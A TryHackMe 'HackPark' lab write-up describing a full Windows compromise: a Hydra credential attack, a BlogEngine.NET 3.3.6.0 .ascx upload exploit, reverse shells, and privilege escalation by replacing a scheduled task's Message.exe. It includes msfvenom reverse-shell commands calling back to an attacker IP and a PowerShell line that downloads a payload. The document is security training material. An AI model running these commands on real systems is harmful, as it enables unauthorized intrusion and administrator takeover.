




# HackPark

This is a TryHackMe lab for practicing web application enumeration, credential attacks, public exploit research, reverse shells, and Windows privilege escalation through a misconfigured scheduled task.

## Reconnaissance

Started with **RustScan** and **Nmap** to identify exposed services on the target.



The scan revealed two open ports:

```text
80/tcp    HTTP
3389/tcp  RDP
```

Port `80` hosted a website, so the next step was to inspect the web application and identify its login functionality.

---

## Credential Attack

Captured the login request from the web form and used **Hydra** against the HTTP POST endpoint.



Hydra identified valid credentials for the application:

```text
Username: admin
Password: 1qaz2wsx
```

Using these credentials, access to the administration area was obtained.

---

## Vulnerability Research

After logging in, the application version was identified as **BlogEngine.NET 3.3.6.0**.

Public exploit research showed that this version could be exploited by uploading a malicious `.ascx` file through the theme functionality. This provided a path from authenticated access to remote code execution.

---

## Initial Access

Uploaded the crafted `.ascx` file into the theme directory and triggered it from the browser.

This successfully opened a reverse shell from the target back to the attacking machine.



The initial shell confirmed code execution on the Windows target.

---

## Shell Upgrade

Generated a Windows reverse shell executable with **msfvenom**:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.132.207 LPORT=445 -f exe > reverse_shell.exe
```

Started a temporary HTTP server on the attacking machine and downloaded the executable from the target using PowerShell:

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://192.168.132.207:8080/reverse_shell.exe' -OutFile 'C:\Windows\Temp\reverse_shell.exe'"
```

After executing the downloaded payload, a more stable reverse shell was obtained.

---

## Privilege Escalation

During enumeration, an automated scheduled task running `Message.exe` was discovered.



The task repeatedly executed `Message.exe` with administrator privileges. A new payload was generated using the same filename:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.132.207 LPORT=4444 -f exe > Message.exe
```

Replacing the executable caused the scheduled task to run the payload instead of the original program.

When the task executed again, an administrator-level reverse shell was received.

---

## Attack Path

```text
RustScan / Nmap
        ↓
HTTP and RDP Discovery
        ↓
Web Login Request Capture
        ↓
Hydra Credential Attack
        ↓
BlogEngine.NET 3.3.6.0 Version Discovery
        ↓
Public Exploit Research
        ↓
ASCX Theme Upload
        ↓
Initial Reverse Shell
        ↓
Reverse Shell Executable Upload
        ↓
Scheduled Task Enumeration
        ↓
Message.exe Replacement
        ↓
Administrator Shell
```

## Key Takeaways

* Practiced service discovery using **RustScan** and **Nmap**.
* Captured a web login request and used **Hydra** to identify valid credentials.
* Exploited **BlogEngine.NET 3.3.6.0** through an authenticated `.ascx` upload technique.
* Upgraded shell access by transferring and executing a generated Windows reverse shell payload.
* Escalated privileges by abusing a scheduled task that executed `Message.exe` as administrator.
